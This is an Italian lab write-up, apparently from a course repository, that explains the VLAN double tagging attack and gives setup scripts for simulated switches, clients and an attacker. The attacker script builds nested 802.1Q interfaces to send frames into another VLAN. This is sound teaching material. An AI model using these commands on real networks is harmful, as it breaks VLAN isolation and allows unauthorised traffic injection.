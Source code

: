 # VLAN: Double Tagging Attack
Il **Double Tagging Attack** prevede che l'attaccante sia connesso tramite un *Trunk Link* ad uno switch, e che possa inviare pacchetti taggati con l'id della native VLAN dello switch. Con queste premesse l'attacco funziona sfruttando il comportamento tipico dello switch di quando deve inoltrare un pacchetto appartenente alla sua native VLAN: il pacchetto viene inoltrato *untagged*. Più precisamente, il tag relativo alla native VLAN, se presente, viene rimosso. L'idea è quindi quella di inviare un pacchetto con due tag: il primo tag deve essere quello della nativa VLAN dello switch, il secondo tag è invece quello della rete VLAN verso cui si vuole inoltrare il pacchetto. Così facendo, il pacchetto ricevuto dallo switch viene manipolato affinché il primo tag venga rimosso, senza sapere che a seguire c'è un ulteriore tag di un'altra VLAN. Il pacchetto che viene inoltrato sarà quindi un pacchetto legale diretto verso una VLAN a cui l'attaccante non appartiene. Osserviamo che questo attacco consente ad un attaccante di inviare pacchetti verso un'altra VLAN, ma non di riceverne.

# Laboratorio
![topology](topology.png)

Partiamo da una topologia simile a quella del laboratorio sulle VLAN. In questo caso togliamo però il router in quanto non vogliamo consentire la comunicazione inter-VLAN. L'attaccante è connesso ad un *Trunk Link*. Lo scopo del laboratorio è quello di simulare un **Double Tagging Attack**, ovvero di inviare pacchetti ad una vittima nella VLAN 20 anche se l'attaccante si trova in un'altra VLAN e la comunicazione inter-VLAN via un IP GW non è consentita.

## Configurazione degli switch

#### Switch 1 (scripts/switch1/setup.sh):
```
ip link add name bridge type bridge
ip link set dev bridge type bridge vlan_filtering 1
ip link set bridge up
ip link set dev eth0 master bridge
ip link set dev eth1 master bridge
ip link set dev eth2 master bridge
ip link set dev eth3 master bridge
bridge vlan add dev eth0 vid 10 pvid untagged
bridge vlan add dev eth1 vid 20 pvid untagged
bridge vlan add dev eth2 vid 10
bridge vlan add dev eth2 vid 20
```

#### Switch 2 (scripts/switch2/setup.sh):
```
ip link add name bridge type bridge
ip link set dev bridge type bridge vlan_filtering 1
ip link set bridge up
ip link set dev eth0 master bridge
ip link set dev eth1 master bridge
ip link set dev eth2 master bridge
bridge vlan add dev eth0 vid 10 pvid untagged
bridge vlan add dev eth1 vid 20 pvid untagged
bridge vlan add dev eth2 vid 10
bridge vlan add dev eth2 vid 20
```


## Configurazione dei client

#### Client 1 (scripts/client1/setup.h):
```
ip link set eth0 up
ip addr add 10.0.10.101/24 dev eth0
ip route add default via 10.0.10.1
```

#### Client 2 (scripts/client2/setup.h):
```
ip link set eth0 up
ip addr add 10.0.20.101/24 dev eth0
ip route add default via 10.0.20.1
```

#### Client 3 (scripts/client3/setup.h):
```
ip link set eth0 up
ip addr add 10.0.10.102/24 dev eth0
ip route add default via 10.0.10.1
```

#### Client 4 (scripts/client4/setup.h):
```
ip link set eth0 up
ip link set dev eth0 address d0:d0:d0:d0:d0:d0
ip addr add 10.0.20.102/24 dev eth0
ip route add default via 10.0.20.1
```

#### Attacker (scripts/attacker/setup.sh):
```
# script for sending double 802.1q frames with 
# native tools on Linux (we can use also scapy..)
ip link add link eth0 name eth0.1 type vlan id 1
ip link set eth0.1 up
ip link add link eth0.1 name eth0.1.20 type vlan id 20
ip link set eth0.1.20 up
ip addr add 10.0.20.250/24 dev eth0.1.20
arp -s 10.0.20.102 d0:d0:d0:d0:d0:d0 -i eth0.1.20 #if mac not known use broadcast MAC
```